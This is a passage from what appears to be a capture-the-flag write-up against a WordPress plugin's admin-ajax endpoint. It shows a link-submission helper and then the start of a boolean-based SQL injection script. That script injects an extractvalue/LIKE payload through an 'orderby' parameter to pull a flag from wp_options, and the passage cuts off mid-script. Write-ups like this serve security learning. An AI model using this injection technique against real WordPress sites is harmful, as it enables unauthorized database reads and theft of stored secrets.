 ```python
    data = {
        'action': 'submit_link',
        'nonce': nonce,
        'url': url,
        'name': name,
        'description': description,
    }

    # Send the POST request to submit the link
    response = httpx.post(ajax_url, data=data)

    # Check the response
    if response.status_code == 200:
        print(f"Success: {response.json()}")
    else:
        print(f"Failed: {response.status_code}, {response.text}")

# Usage: Replace the URL, Name, and Description with your own values
try:
    submit_link(
        url="https://example.com",
        name="Example Link",
        description="This is an example link submission via AJAX."
    )
except Exception as e:
    print(f"Error: {e}")

```

### Step 2: Boolean-Based SQL Injection Script

Once the data is populated, you can use boolean-based SQL injection to retrieve the flag with this script:

```python
import string
import asyncio
import httpx

# Define the target URL
url = "http://100.25.255.51:9097/wp-admin/admin-ajax.php"
known = "CTF{"

# Asynchronous function to send POST requests
async def send_request(char, known):
    to_search = f"{known + char}%".encode().hex()
    data = {
        "action": "get_link_data",
        "link_name": "Example Link",
        "orderby": f"1,extractvalue(null,concat((select 0 from dual where (select option_value from wp_options where option_name = 0x{'flag_links_data'.encode().hex()}) like binary 0x{to_search}),0x01)) -- -",
        "order": "ASC"
    }

    async with httpx.AsyncClient() as client:
        response = await client.post(url, data=data)
        return char, response.text

# Main asynchronous function to control the process
async def sql_injection():
    global known
    while True:
        # Create a list of tasks for each character in string.ascii_letters + "{}"
```